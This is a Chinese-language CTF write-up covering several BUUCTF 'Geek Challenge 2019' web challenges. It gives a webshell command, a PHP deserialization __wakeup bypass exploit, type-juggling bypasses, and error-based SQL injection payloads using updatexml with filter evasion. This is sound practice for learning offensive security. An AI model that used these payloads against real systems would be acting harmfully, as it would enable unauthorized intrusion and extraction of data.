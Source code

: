 ```yaml
---
title:  buu极客大挑战
date: 2024-10-01 13:25:14
permalink: /pages/8f5e89/
author: 
  name: Cola
  link: https://the0n3.top
---
```


## [极客大挑战 2019]Http

打开页面，查看源码，找到隐藏的php页面的路径，基础的http header做了就给flag

![1](https://the0n3.top/medias/daily/geek/1.png)

## [极客大挑战 2019]Knife

白给的shell`Syc=system('tac /f*');`


## [极客大挑战 2019]PHP

提示备份，下载www.zip，压缩包里有`class.php`，审计

index.php里包含了class.php，并接收一个select get参数

![2](https://the0n3.top/medias/daily/geek/2.png)

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

exp

```php
$payload = new Name('admin',100);
echo urlencode(serialize($payload));
```

类里有个`wakeup`魔术方法，尝试修改对象的属性个数绕过，把2改3就可以了

![3](https://the0n3.top/medias/daily/geek/3.png)

## [极客大挑战 2019]BuyFlag

找到题目路径，访问，查看源码，里面有注释的php代码

三个限制，1.a student from CUIT，2.密码，3.金额

money，password都可以在源码里看到

![4](https://the0n3.top/medias/daily/geek/4.png)

没有找到`a student from CUIT`相关内容，最后可以通过抓包或者查看网站cookie，找到`user:0`，1就代表`a student from CUIT`

简单的绕过

1.第一层可以用`404a`绕过，他是字符串，和数字比较会自动转换，只保留开头的数字

2.第二层提示长度太长，可以使用科学计数法，`9e9`

![6](https://the0n3.top/medias/daily/geek/6.png)


## [极客大挑战 2019]HardSQL

参考：[【BUUCTF-[极客大挑战 2019]HardSQL 1详解】](https://www.cnblogs.com/junlebao/p/13836583.html)

报错注入

在sql语法里，可以使用`^`连接字段值和函数，进行异或运算

![7](https://the0n3.top/medias/daily/geek/7.png)

![8](https://the0n3.top/medias/daily/geek/8.png)

这里使用`^`拼接变量值和`updatexml`函数，`updatexml`函数会报错，回显出已经执行的结果，通过`updatexml`函数里不允许出现的字符`0x7e`来来让他报错`(updatexml(0x7e,注入语句,0x7e));`

测试，题目过滤了空格，等号，可以用括号绕过空格，用like绕过等号，最后补上注释符`%23`

```sql
?username=admin&password=1'^updatexml(0x7e,(select(version())),0x7e)%23
```

![9](https://the0n3.top/medias/daily/geek/9.png)

```sql
# 爆表
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek'),0x7e),1)%23
# 爆字段 ~id,username,password~
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like"H4rDsq1"),0x7e),1)%23
# 爆数据
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(password))from(geek.H4rDsq1)),0x7e),1)%23
```
爆flag，只爆出了一半，用substr函数时截不出来，好像被过滤了，用`right`,`left`代替了

![10](https://the0n3.top/medias/daily/geek/10.png)


```sql
# 前30位 flag{758142ee-d5c3-4320-8bca-b
?username=admin&password=1'^updatexml(1,concat(0x7e,left((select(group_concat(password))from(geek.H4rDsq1)),30),0x7e),1)%23
# 后30位 e-d5c3-4320-8bca-ba29957a9055}
?username=admin&password=1'^updatexml(1,concat(0x7e,right((select(group_concat(password))from(geek.H4rDsq1)),20),0x7e),1)%23
```